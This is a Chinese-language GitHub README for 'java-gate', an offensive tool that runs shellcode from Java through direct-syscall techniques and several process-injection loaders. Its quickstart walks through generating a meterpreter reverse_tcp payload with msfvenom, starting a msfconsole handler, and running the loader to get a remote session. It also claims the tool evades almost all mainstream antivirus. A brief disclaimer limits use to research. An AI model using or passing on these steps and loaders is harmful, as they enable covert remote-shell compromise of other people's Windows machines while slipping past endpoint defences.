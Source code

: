 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

`java-gate` 项目可以通过简单的 `Java` 代码实现 `Hell's Gate` 相关技术（直接的系统调用）

```java
byte[]shellcode=new byte[]{(byte)0xfc,(byte)0x48...};
HellsGate gate=new HellsGate(shellcode);
gate.exec();
```

并且支持多种由 `Hell's Gate` 演变而来的技术，如光环之门 `Halo's Gate` 回收之门 `Recycled Gate`
塔尔塔罗斯之门 `Tartarus Gate`
等。除了系统调用相关的功能，另外提供了很多常见的 `Shellcode` 注入方式，
例如 `APC` 注入，和远程线程注入等技术。
使用 `C` 和 `NASM/MASM` 汇编编译和构建，通过 `JNI` 在 `Java` 层调用。
各种底层技术都可以通过简单的 `Java` 代码做到。

## 介绍

为什么以 `java-gate` 命名：该项目主要集成了各种直接系统调用相关的技术，如地狱之门，光环之门等，因此以`Java`
之门命名，另外可以理解为 `Java` 与底层之间的一扇门。

注意：

- 该项目仅支持64位 `Windows` 和64位 `JVM` （由于 `JNI` 规定64位 `JVM` 只能加载64位 `DLL`）
- 建议使用64位的`shellcode`（例如`windows/x64/meterpreter/reverse_tcp`）
- 使用任意方式加载 `shellcode` 都有可能会导致 `JVM` 崩溃（例如 `shellcode` 没有恢复现场）
- 仅在 `JDK 8` 中测试通过，其他版本 `JDK` 不稳定

## 快速开始

(1) `Maven` 使用 `jitpack` 仓库

```xml

<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) 导入项目

```xml

<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.2</version>
</dependency>
```

(3) 获取 `shellcode`

这里以 `meterpreter` 为例

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) 启动 `msfconsole` 监听

这里以 `meterpreter` 为例

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) 编写测试程序

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) 上线

`msfconsole` 成功上线

系统调用部分如下，使用方式和上文类似，更换类名即可

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

加载器部分如下，使用方式和上文类似，更换类名即可

| Module     | Class                                | Description               | Optional |
|:-----------|:-------------------------------------|:--------------------------|:---------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | 通过NtTestAlert的APC注入       | /        |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | 简单的基于线程的APC注入             | /        |
| crt        | me.n1ar4.gate.loader.CRTLoader       | 简单的远程线程注入                 | 进程名称     |
| divide     | me.n1ar4.gate.loader.DivideLoader    | 创建进程并远程线程注入该进程            | /        |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | 创建新进程并APC注入               | /        |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | 基于EtwpCreateEtwThread函数注入 | /        |
| rip        | me.n1ar4.gate.loader.RIPLoader       | 修改线程上下文RIP寄存器执行shellcode  | /        |

命令行工具的使用如下

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

由于 `JVM` 可能崩溃，有一种创建新进程的办法执行

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

这同样是一种思路，需要在自定义代码中运行本项目可以参考代码 `JavaGate#runNewJVM`

## 构建

在 `Release` 中存在打包好的版本，但如果你不放心，或者需要添加自己的功能，可以参考这里手动构建

请注意，该项目仅适用于 `Windows` 64位和 `JVM` 64位环境，因此只能在该环境下编译和构建

**(1) MSVC x64**

`CMake Toolchains` 使用 `MSVC x64` 工具，大部分汇编基于 `MSVC` 的 `ml64` 编译器

**(2) CMake 3.x**

`C`和汇编代码使用`CMake`编译和构建，生成 `JNI` 对应的 `DLL` 文件，建议使用 `CLion`

**(3) NASM**

大部分汇编使用 `MASM` 编译，但部分汇编使用 `NASM` 编译，需要单独下载和配置到 `PATH`

**(4) JDK 8 & Maven**

`Java` 部分代码使用 `Java 8` 和 `Maven` 进行构建，建议使用 `IDEA`

**(5) Python 3.x**

本项目使用 `Python` 做一些辅助工具，实际上不是必须的选项

## 一些测试

可过几乎所有主流杀软，某些时候会提示 `Java` 存在风险，但不影响 `meterpreter` 反弹 `shell` 上线等功能

## 参考与感谢

非常感谢以下优秀的项目提供的代码（大部分代码都参考了这些）

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## 免责声明

此工具仅作为网络安全攻防研究交流，请勿用于非法用途

